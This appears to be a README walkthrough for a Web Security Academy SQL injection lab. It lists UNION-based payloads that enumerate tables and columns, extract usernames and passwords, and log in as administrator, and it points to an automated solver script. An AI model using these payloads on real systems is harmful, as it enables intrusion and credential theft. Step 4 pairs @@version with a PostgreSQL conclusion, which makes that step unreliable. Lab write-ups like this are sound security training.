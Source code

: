 # SQL Injection Lab 05 - SQL injection attack, listing the database contents on non-Oracle databases

## Manual Solution

### 1. Access the lab in Web Security Academy
### 2. Determine the number of columns for UNION attack
   - Test: `/filter?category=Gifts' ORDER BY 1--`
   - Result: No error (at least 1 column exists)
   - Test: `/filter?category=Gifts' ORDER BY 2--`
   - Result: No error (at least 2 columns exist)
   - Test: `/filter?category=Gifts' ORDER BY 3--`
   - Result: Error (confirms 2 columns)

### 3. Verify column data types:
   - Test: `/filter?category=Gifts' UNION SELECT '1', '2'--`
   - Result: Values '1' and '2' displayed (confirms string compatibility)

### 4. Verify database version:
   - Test: `/filter?category=Gifts' UNION SELECT NULL,@@version --`
   - Result: Database version information displayed. So the database is PostgreSQL.

### 5. List the database contents:
   - Test: `/filter?category=Gifts' UNION SELECT NULL,table_name FROM information_schema.tables --`
   - Result: List of tables in the database. There are many tables, we don't know which one has the username and password.

### 6. List the columns like %username% and %password%:
   - Test: `/filter?category=Gifts' UNION SELECT table_name,column_name FROM information_schema.columns WHERE column_name LIKE '%username%' OR column_name LIKE '%password%' --`
   - Result: You'll see a table starts with users_... and its columns. Example: users_ylbcwc and its columns are username_fyrfao and password_izzwei.

### 7. Extract the username and password:
   - Test: `/filter?category=Gifts' UNION SELECT [YOUR COLUMN NAME],[YOUR COLUMN NAME] FROM [YOUR_TABLE_NAME]--`
   - Result: administrator and password

### 8. Login to the administrator account

## Automated Solution

### 1. Download the script
### 2. Run the script with the following command: python sqli_lab_05.py -u <target_url> -p (if you want to use proxy 127.0.0.1:8080)

